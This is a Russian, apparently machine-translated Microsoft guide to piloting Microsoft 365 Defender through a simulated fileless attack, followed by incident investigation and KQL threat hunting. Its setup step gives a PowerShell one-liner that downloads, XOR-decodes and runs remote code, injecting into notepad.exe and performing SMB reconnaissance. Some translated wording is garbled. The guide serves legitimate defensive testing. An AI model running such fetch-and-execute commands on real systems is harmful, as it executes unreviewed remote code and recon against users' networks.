



# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Запуск имитации атак Microsoft 365 Defender

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](m365d-pilot-plan.md)<br/>[Планирование](m365d-pilot-plan.md)|[](prepare-m365d-eval.md)<br/>[Подготовка](prepare-m365d-eval.md)|<br/>Имитация атаки|[](m365d-pilot-close.md)<br/>[Закрытие и итоги](m365d-pilot-close.md)|
|--|--|--|--|
|||*Вы здесь!*||

В настоящее время вы в стадии моделирования атак.

После подготовки пилотной среды настало время протестировать управление инцидентами Microsoft 365 Defender и возможности автоматического расследования и восстановления. Мы поможем вам смоделировать сложную атаку, которая использует передовые методы, чтобы скрыться от обнаружения. При атаке были открыты сеансы блокировки сообщений сервера (SMB) на контроллерах домена и извлечены последние IP-адреса устройств пользователей. Эта категория атак обычно не включает файлы, сброшенные на устройство жертвы, они происходят исключительно в памяти. Они "живут за счет земли", используя существующие системные и административные средства, и вводят свой код в системные процессы, чтобы скрыть их выполнение, такое поведение позволяет им уклоняться от обнаружения и сохраняться на устройстве.

В этом моделировании пример сценария начинается со сценария PowerShell. Пользователь может быть обманут при запуске скрипта. Или сценарий может запускаться из удаленного подключения к другому компьютеру с ранее зараженного устройства — злоумышленник пытается двигаться по сети. Обнаружение этих скриптов может быть затруднено, так как администраторы также часто запускают сценарии удаленно для выполнения различных административных действий.


Во время моделирования атака впрыскиивает код оболочки в казалось бы невинный процесс. Сценарий требует использования notepad.exe. Мы выбрали этот процесс для моделирования, но злоумышленники, скорее всего, будут нацелены на длительный системный процесс, например svchost.exe. Затем код оболочки отправляется на контакт с сервером командно-диспетчерской системы (C2) злоумышленника, чтобы получить инструкции о том, как действовать дальше. Сценарий пытается выполнять разведывательные запросы в отношении контроллера домена (DC). Разведка позволяет злоумышленнику получать сведения о последних сведениях входа пользователя. После получения злоумышленниками этой информации они могут перемещаться по сети, чтобы перейти к определенной конфиденциальной учетной записи.

> [!IMPORTANT]
> Для достижения оптимальных результатов выполните инструкции по моделированию атак как можно ближе.

## <a name="simulation-environment-requirements"></a>Требования среды моделирования

Так как вы уже настроили пилотную среду на этапе подготовки, убедитесь, что у вас есть два устройства для этого сценария: тестового устройства и контроллера домена.

1. Убедитесь, что клиент [включил Microsoft 365 Defender.](m365d-enable.md#confirm-that-the-service-is-on)

2. Проверка конфигурации контроллера тестового домена:

   - Устройство работает с Windows Server 2008 R2 или более поздней версией.
   - Контроллер тестового домена [для Microsoft Defender для identity](/azure/security-center/security-center-wdatp) и включает [удаленное управление.](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)
   - Убедитесь, что включена интеграция Microsoft Defender для удостоверений и [microsoft Cloud App Security.](/cloud-app-security/mdi-integration)
   - Тестовый пользователь создается на вашем домене, для этого не требуется никаких разрешений администратора.

3. Проверка конфигурации тестового устройства:

   1. Устройство работает с Windows 10 версии 1903 или более поздней версии.

   1. Тестовая устройство присоединяется к тестовой области.

   1. [Включи Защитник Windows антивирус](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Если у вас возникли проблемы с включением Защитник Windows антивируса, см. в этом разделе [устранение неполадок.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)

   1. Убедитесь, что тестового устройства на борту [в Microsoft Defender для конечной точки)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Если вы используете существующий клиент и реализуете группы устройств, создайте специальную группу устройств для тестового устройства и вытолкнуйте его на верхний уровень в конфигурации UX.

## <a name="run-the-attack-scenario-simulation"></a>Запуск моделирования сценария атаки

Для запуска моделирования сценария атаки:

1. Войдите на тестовом устройстве с учетной записью тестовых пользователей.

2. Откройте окно Windows PowerShell на тестовом устройстве.

3. Скопируйте следующий сценарий моделирования:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Если вы откроете этот документ в веб-браузере, могут возникнуть проблемы с копированием полного текста без потери определенных символов или введения дополнительных разрывов строк. Скачайте этот документ и откройте его в Adobe Reader.

4. По запросу вклеить и запустить скопированные скрипты.

> [!NOTE]
> Если вы используете PowerShell с помощью протокола удаленного рабочего стола (RDP), используйте команду Type Clipboard Text в клиенте RDP, так как метод **CTRL-V** или метод вклейки правой кнопкой мыши может не работать. Недавние версии PowerShell иногда также не принимают этот метод, вам может потребоваться сначала скопировать блокнот в памяти, скопировать его в виртуальной машине, а затем вклеить в PowerShell.

Через несколько секунд <i>notepad.exe</i> откроется. Смоделированный код атаки будет вводиться в notepad.exe. Не открывай автоматически созданный экземпляр блокнота, чтобы получить полный сценарий.

Смоделированный код атаки будет пытаться связываться с внешним IP-адресом (имитирующим сервер C2), а затем пытаться вести разведку в отношении контроллера домена через SMB.

После завершения сценария на консоли PowerShell отображается сообщение.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Чтобы увидеть функцию Automated Incident and Response в действии, notepad.exe процесс. Вы увидите, как автоматические инциденты и ответы останавливают процесс блокнота.

## <a name="investigate-an-incident"></a>Исследование инцидента

> [!NOTE]
> Перед тем, как мы пройдемся по этому моделированию, просмотрите следующее видео, чтобы узнать, как управление инцидентами помогает собрать связанные оповещения вместе в рамках процесса расследования, найти их на портале и как это может помочь вам в операциях по безопасности:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Перейдя на точку зрения аналитика SOC, вы можете приступить к расследованию атаки на портале Центра безопасности Microsoft 365.

1. Откройте очередь инцидентов на портале Центра безопасности Microsoft [365](https://security.microsoft.com/incidents) с любого устройства.

2. Перейдите **к инцидентам** из меню.

    

3. Новый инцидент для имитации атаки появится в очереди инцидента.

    

### <a name="investigate-the-attack-as-a-single-incident"></a>Расследование атаки как одного инцидента

Microsoft 365 Defender сопоставляет аналитику и совмещает все связанные оповещения и расследования из различных продуктов в одно целое инцидентов. Таким образом, в Microsoft 365 Defender показана более широкая история атак, позволяющая аналитику SOC понимать сложные угрозы и реагировать на них.

Оповещения, созданные во время этого моделирования, связаны с той же угрозой, и в результате автоматически агрегируются как один инцидент.

Чтобы просмотреть инцидент:

1. Перейдите к **очереди Инциденты.**

   

2. Выберите самый новый элемент, нажав на круг, расположенный слева от имени инцидента. На боковой панели отображаются дополнительные сведения об инциденте, включая все связанные оповещения. Каждый инцидент имеет уникальное имя, которое описывает его на основе атрибутов включенных в него оповещений.

   

   Оповещения, которые показываются на панели мониторинга, можно фильтровать на основе ресурсов служб: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender и Microsoft Defender для Office 365.

3. Выберите **страницу Открытый** инцидент, чтобы получить дополнительные сведения об инциденте.

   На странице **Incident** можно увидеть все оповещения и сведения, связанные с инцидентом. Эти сведения включают объекты и активы, участвующие в оповещении, источник обнаружения оповещений (Microsoft Defender for Identity, EDR) и причину их взаимосвязи. Просмотр списка оповещений об инциденте показывает прогрессирование атаки. Из этого представления можно просмотреть и изучить отдельные оповещения.

   Вы также можете нажать **кнопку Управление** инцидентом из правой стороны меню, чтобы отметить инцидент, назначить его себе и добавить комментарии.

   

   

### <a name="review-generated-alerts"></a>Просмотр созданных оповещений

Рассмотрим некоторые оповещения, созданные во время имитации атаки.

> [!NOTE]
> Мы проявим только несколько оповещений, созданных во время имитации атаки. В зависимости от версии Windows и продуктов Microsoft 365 Defender, работающих на тестовом устройстве, вы можете видеть больше оповещений, которые отображаются в несколько ином порядке.


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>Предупреждение. Наблюдается подозрительный процесс впрыскивания (Источник: Microsoft Defender для endpoint EDR)

Расширенные злоумышленники используют сложные и скрытные методы для сохраняющихся в памяти и скрыться от средств обнаружения. Одним из распространенных методов является работа в рамках доверенного системного процесса, а не из вредоносного исполняемого, что делает его трудно для средств обнаружения и операций безопасности, чтобы обнаружить вредоносный код.

Чтобы позволить аналитикам SOC ловить эти расширенные атаки, датчики глубокой памяти в Microsoft Defender для Конечной точки предоставляют нашей облачной службе беспрецедентную видимость в различных методах впрыскивания кода. На следующем рисунке показано, как Defender для конечной точки обнаруживали и оповещали о попытке ввести код <i>вnotepad.exe. </i>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>Предупреждение. Непредвиденное поведение, наблюдаемое процессом без аргументов командной строки (Источник: Microsoft Defender for Endpoint EDR)

Обнаружение microsoft Defender для конечных точек часто нацелено на наиболее распространенный атрибут метода атаки. Этот метод обеспечивает долговечность и повышает планку перехода злоумышленников на более новую тактику.

Мы используем крупномасштабные алгоритмы обучения для установления нормального поведения общих процессов в организации и во всем мире и следим за тем, когда эти процессы показывают аномальное поведение. Эти аномальные действия часто указывают на то, что внедрили и запускают в другом доверяемом процессе.

В этом сценарии <i> процесс </i>notepad.exeаномальное поведение, связанное с связью с внешним расположением. Этот результат не зависит от конкретного метода, используемого для внедрения и выполнения вредоносного кода.

> [!NOTE]
> Поскольку это предупреждение основано на моделях машинного обучения, которые требуют дополнительной обработки backend, может потребоваться некоторое время, прежде чем вы увидите это оповещение на портале.

Обратите внимание, что сведения об оповещении включают внешний IP-адрес — индикатор, который можно использовать в качестве поворота для расширения расследования.

Выберите IP-адрес в дереве процесса оповещения, чтобы просмотреть страницу сведений о IP-адресе.


На следующем рисунке отображается выбранная страница сведений об IP-адресе (щелкнув IP-адрес в дереве процесса Оповещения).


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Оповещение. Разведка пользовательских и IP-адресов (SMB) (Источник: Microsoft Defender for Identity)

Составление переучета с помощью протокола Блокировка серверных сообщений (SMB) позволяет злоумышленникам получать последние сведения о логосе пользователя, которые помогают им перемещаться по сети, чтобы получить доступ к определенной конфиденциальной учетной записи.

В этом обнаружении срабатывает оповещение при запуске переумерия сеанса SMB с контроллером домена.


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>Просмотрите хронологию устройства [Microsoft Defender для конечной точки]

После изучения различных оповещений в этом инциденте перейдите на страницу инцидента, которая была исследована ранее. Выберите **вкладку Devices** на странице инцидента, чтобы просмотреть устройства, участвующие в этом инциденте, о чем сообщили Microsoft Defender для конечной точки и Microsoft Defender for Identity.

Выберите имя устройства, на котором была совершена атака, чтобы открыть страницу сущности для этого конкретного устройства. На этой странице можно увидеть оповещения, которые были вызваны и связанные события.

Выберите **вкладку Timeline** для открытия временной шкалы устройства и просмотра всех событий и поведения, наблюдаемых на устройстве в хронологическом порядке, впереме с поднятыми оповещениями.


Расширение некоторых наиболее интересных поведений содержит полезные сведения, например, деревья процессов.

Например, прокрутите вниз, пока не найдете наблюдаемую инъекцию подозрительного процесса **оповещения.** Выберите **powershell.exe,** впрыскивающееся в notepad.exe процесса ниже него, чтобы отобразить полное дерево процесса для этого поведения в графе сущностями событий на боковой области.  При необходимости используйте панели поиска для фильтрации.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Просмотрите сведения о пользователях [Безопасность облачных приложений Майкрософт]

На странице инцидента выберите вкладку **"Пользователи",** чтобы отобразить список пользователей, участвующих в атаке. В таблице содержатся дополнительные сведения о каждом пользователе, включая оценку приоритета расследования **каждого** пользователя.

Выберите имя пользователя, чтобы открыть страницу профиля пользователя, на которой может быть проведено дополнительное исследование. [Узнайте больше о расследовании рискованных пользователей.](/cloud-app-security/tutorial-ueba#identify)


## <a name="automated-investigation-and-remediation"></a>Автоматическое исследование и защита

> [!NOTE]
>Прежде чем мы пройдемся по этому моделированию, просмотрите следующее видео, чтобы узнать, что такое автоматическое самовосстановления, где найти его на портале и как оно может помочь в операциях по обеспечению безопасности:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Перейдите к инциденту на портале Центра безопасности Microsoft 365. На **вкладке "Исследования"** на странице **Incident** показаны автоматические расследования, которые были инициированы Microsoft Defender для удостоверений и Microsoft Defender для конечной точки. На приведенном ниже снимке экрана отображается только автоматическое расследование, инициированное Defender для конечной точки. По умолчанию Defender для конечной точки автоматически устраняет артефакты, найденные в очереди, что требует исправлений.


Выберите оповещение, которое вызвало расследование, чтобы открыть страницу **сведений о расследовании.** Вы увидите следующие сведения:

- Оповещение(ы), которое вызвало автоматическое расследование.
- Влияние пользователей и устройств. Если индикаторы находятся на дополнительных устройствах, эти дополнительные устройства также будут перечислены.
- Список доказательств. Объекты, найденные и проанализированы, например файлы, процессы, службы, драйверы и сетевые адреса. Эти сущности анализируются для возможных связей с оповещением и оцениваются как доброкачественные или вредоносные.
- Найдены угрозы. Известные угрозы, найденные в ходе расследования.

> [!NOTE]
> В зависимости от времени может быть запущено автоматическое расследование. Подождите несколько минут, пока процесс не завершится, прежде чем собирать и анализировать доказательства и анализировать результаты. Обновите **страницу сведения о** расследовании, чтобы получить последние результаты.


В ходе автоматического исследования Microsoft Defender for Endpoint определил процесс notepad.exe, который был введен в качестве одного из артефактов, требующих восстановления. Defender for Endpoint автоматически останавливает подозрительную инъекцию процесса в рамках автоматического восстановления.

Вы можете <i>notepad.exe</i> из списка запущенных процессов на тестовом устройстве.

## <a name="resolve-the-incident"></a>Устранение инцидента

После завершения расследования и подтверждения его устранения закрой инцидент.

Выберите **Управление инцидентом**. Установите состояние для **устранения инцидента** и выберите соответствующую классификацию.

После разрешения инцидента он закрывает все связанные оповещения в Центре безопасности Microsoft 365 и на соответствующих порталах.


Это завершает моделирование атак для управления инцидентами и автоматизированных сценариев расследования и восстановления. Следующее моделирование поможет вам в активной охоте на угрозы для потенциально вредоносных файлов.

## <a name="advanced-hunting-scenario"></a>Расширенный сценарий охоты

> [!NOTE]
> Прежде чем мы пройдемся по моделированию, просмотрите следующее видео, чтобы понять передовые концепции охоты, узнайте, где его можно найти на портале, и узнайте, как это может помочь вам в операциях по безопасности:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Требования среды охоты

Для этого сценария требуется один внутренний почтовый ящик и устройство. Для отправки тестового сообщения также потребуется внешняя учетная запись электронной почты.

1. Убедитесь, что клиент включил [Microsoft 365 Defender.](m365d-enable.md#confirm-that-the-service-is-on)
2. Определите целевой почтовый ящик, который будет использоваться для получения электронной почты.
    а. Этот почтовый ящик должен контролироваться Microsoft Defender для Office 365 b. Устройство из требования 3 должно получить доступ к этому почтовому ящику
3. Настройка тестового устройства: a. Убедитесь, что вы используете Windows 10 версии 1903 или более поздней версии.
    б. Присоединитесь к тестовом устройству в тестовом домене.
    в. [Включи Защитник Windows антивирус](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Если у вас возникли проблемы с включением Защитник Windows антивируса, см. в этом разделе [устранение неполадок.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)
    г. [На борту в Microsoft Defender для конечной точки](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Запуск моделирования

1. Из внешней учетной записи электронной почты отправьте сообщение электронной почты в почтовый ящик, выявленный на шаге 2 раздела требования к тестовой среде. Включайте вложение, которое будет разрешено через любые существующие политики фильтра электронной почты. Этот файл не должен быть вредоносным или исполняемым. Рекомендуемые типы файлов <i>: .pdf,</i> <i>.exe</i> (если разрешено) или документ Office, например файл Word.
2. Откройте отправленную электронную почту с устройства, настроенного в соответствии с этапом 3 раздела требования к тестовой среде. Откройте вложение или сохраните файл на устройстве.

#### <a name="go-hunting"></a>Перейти на охоту

1. Откройте портал security.microsoft.com.

2. Перейдите к **охоте > advanced hunting**.

   

3. Создайте запрос, который начинается с сбора событий электронной почты.

   1. На области запроса выберите New.

   1. Дважды щелкните таблицу EmailEvents из схемы.

      ```console
      EmailEvents
      ```

   1. Измените сроки до последних 24 часов. Если предположить, что отправленное вами сообщение при прогона вышеуказанного моделирования было в течение последних 24 часов, в противном случае измените сроки.

      

   1. Запустите запрос. У вас может быть много результатов в зависимости от среды для пилота.

      > [!NOTE]
      > Следующий шаг для фильтрации параметров для ограничения возврата данных.

      

        > [!NOTE]
        > Расширенный поиск отображает результаты запроса в качестве табулярных данных. Вы также можете выбрать для просмотра данных в других типах форматов, таких как диаграммы.

   1. Посмотрите на результаты и узнайте, можно ли определить открытую электронную почту. Может потребоваться до 2 часов, чтобы сообщение было посеяно в продвинутой охоте. Если среда электронной почты большая и результатов много, для поиска сообщения может потребоваться использовать параметр **Show Filters.**

      В примере сообщение было отправлено из учетной записи Yahoo. Щелкните значок рядом yahoo.com разделе **+** SenderFromDomain и нажмите кнопку **Применить,** чтобы добавить выбранный домен в  запрос. Для фильтрации результатов используйте домен или учетную запись электронной почты, которая использовалась для отправки тестового сообщения на шаге 1 запуска моделирования. Запустите запрос снова, чтобы получить меньший набор результатов, чтобы убедиться, что вы видите сообщение из моделирования.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Щелкните строки из запроса, чтобы проверить запись.

      

4. Теперь, когда вы убедились, что вы можете увидеть электронную почту, добавьте фильтр для вложений. Сосредоточься на всех сообщениях электронной почты с вложениями в среде. В этом сценарии основное внимание уделяйте входящие сообщения электронной почты, а не тем, которые отправляются из среды. Удалите добавленные фильтры, чтобы найти сообщение и добавить "| где **AttachmentCount > 0** и **emailDirection**  ==  **"Inbound""**

   Следующий запрос покажет результат с более коротким списком, чем первоначальный запрос для всех событий электронной почты:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. Далее включите сведения о вложении (например: имя файла, хеши) в набор результатов. Для этого присоединитесь к таблице **EmailAttachmentInfo.** Общие поля, которые необходимо использовать для присоединения, в данном случае **— NetworkMessageId и** **RecipientObjectId.**

   В следующем запросе также содержится дополнительная строка "| **Переименование проекта в EmailTimestamp=Timestamp** поможет определить время, связанное с электронной почтой, а также с периодами времени, связанными с действиями файла, которые будут добавлены на следующем шаге.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. Далее используйте значение **SHA256** из таблицы **EmailAttachmentInfo,** чтобы найти для этого хаша **действия DeviceFileEvents** (действия файлов, которые произошли на конечной точке). Общим полем здесь будет hash SHA256 для вложения.

   В итоговой таблице теперь содержатся сведения из конечной точки (Microsoft Defender для конечной точки), такие как имя устройства, какое действие было сделано (в данном случае фильтруется только для того, чтобы включить события FileCreated) и где был сохранен файл. Также будет включено имя учетной записи, связанной с процессом.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   Теперь создан запрос, который определит все входящие сообщения электронной почты, в которых пользователь открыл или сохранил вложение. Вы также можете уточнить этот запрос для фильтрации определенных доменов отправитель, размеров файлов, типов файлов и так далее.

7. Функции — это особый тип присоединяться, который позволит вам извлекть больше данных TI о файле, как его распространенность, сведения о подписавщике и эмитенте и т.д. Чтобы получить дополнительные сведения о файле, используйте **функцию FileProfile()** для обогащения:

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>Создание обнаружения

После создания запроса, который определяет сведения, которые  вы хотите получить оповещены о том, что они произойдут в будущем, можно создать настраиваемую обнаружение из запроса.

Настраиваемые обнаружения будут запускать запрос в соответствии с установленными частотами, а результаты запросов будут создавать оповещения о безопасности на основе влияния ресурсов, которые вы выбираете. Эти оповещений будут коррелироваться с инцидентами и могут быть триагирована как любое другое оповещение о безопасности, созданные одним из продуктов.

1. На странице запроса удалите строки 7 и 8, которые были добавлены в шаге 7 инструкций по охоте Go и нажмите кнопку **Создать правило обнаружения**.

   

   > [!NOTE]
   > Если вы нажмете правило **Создать** обнаружение и у вас есть ошибки синтаксиса в запросе, ваше правило обнаружения не будет сохранено. Дважды проверьте запрос, чтобы не было ошибок.

2. Заполните необходимые поля сведениями, которые позволят группе безопасности понять оповещение, почему оно было сгенерировано и какие действия вы ожидаете от них.

   

   Убедитесь, что вы заполните поля с ясностью, чтобы помочь дать следующему пользователю информированное решение об этом предупреждении правила обнаружения

3. Выберите, какие объекты оказывают влияние в этом оповещении. В этом случае выберите **устройство** и **почтовый ящик.**

   

4. Определите, какие действия должны происходить, если срабатывает оповещение. В этом случае запустите антивирусное сканирование, хотя можно выполнить другие действия.

   

5. Выберите область для правила оповещения. Так как этот запрос включает устройства, группы устройств релевантны в этом настраиваемом обнаружении в соответствии с контекстом Microsoft Defender для конечной точки. При создании настраиваемой системы обнаружения, которая не включает устройства в качестве сущностями, область не применяется.

   

   Для этого пилотного проекта может потребоваться ограничить это правило подмножество устройств тестирования в производственной среде.

6. Нажмите **Создать**. Затем выберите **настраиваемые правила обнаружения** из панели навигации.

   

   

   На этой странице можно выбрать правило обнаружения, которое откроет страницу сведений.

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Дополнительные расширенные упражнения по ходьбе для охоты

Чтобы узнать больше о продвинутой охоте, в следующих веб-трансляциях вы узнаете о возможностях продвинутой охоты в Microsoft 365 Defender, чтобы создать многостоловые запросы, переходить к сущности и создавать настраиваемые обнаружения и действия по исправлению.

> [!NOTE]
> Будьте готовы с помощью собственной учетной записи GitHub выполнить запросы на охоту в среде экспериментальной лаборатории тестирования.

|Название|Описание|Загрузка MP4|Смотреть на YouTube|CSL-файл для использования|
|---|---|---|---|---|
|Эпизод 1. Основы KQL|Мы покроем основы расширенных возможностей охоты в Microsoft 365 Defender. Сведения о доступных расширенных данных охоты и основных синтаксисах и операторах KQL.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Эпизод 1. CSL-файл в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Эпизод 2. Присоединяется|Мы продолжим изучение данных в области предварительной охоты и совместной работы с таблицами. Узнайте о внутренних, внешних, уникальных и полусемейных присоединяется, а также нюансы присоединиться по умолчанию Kusto innerunique.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Эпизод 2. CSL-файл в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Эпизод 3. Обобщение, развязка и визуализация данных|Теперь, когда мы можем фильтровать, управлять данными и присоединяться к ним, пришло время начать суммирование, количественную оценку, поворот и визуализацию. В этом выпуске мы покроем оператор суммы и некоторые вычисления, которые можно выполнить, погрузився в дополнительные таблицы в продвинутой схеме охоты. Мы превращаем наборы данных в диаграммы, которые помогут улучшить анализ.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Эпизод 3. CSL-файл в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|Эпизод 4. Давайте охотиться! Применение KQL для отслеживания инцидентов|Время отслеживать действия злоумышленников! В этом выпуске мы будем использовать улучшенное понимание KQL и улучшенную охоту в Microsoft 365 Defender для отслеживания атаки. Узнайте некоторые советы и приемы, используемые в поле для отслеживания активности злоумышленников, включая АБС кибербезопасности и их применение к реагированию на инциденты.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Эпизод 4. CSL-файл в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>Следующий шаг

| <br>[Этап закрытия и сводки](m365d-pilot-close.md)|Проанализируйте результаты пилотного проекта Microsoft 365 Defender, предокайте их заинтересованным лицам и примите следующий шаг.
|:-----|:-----|
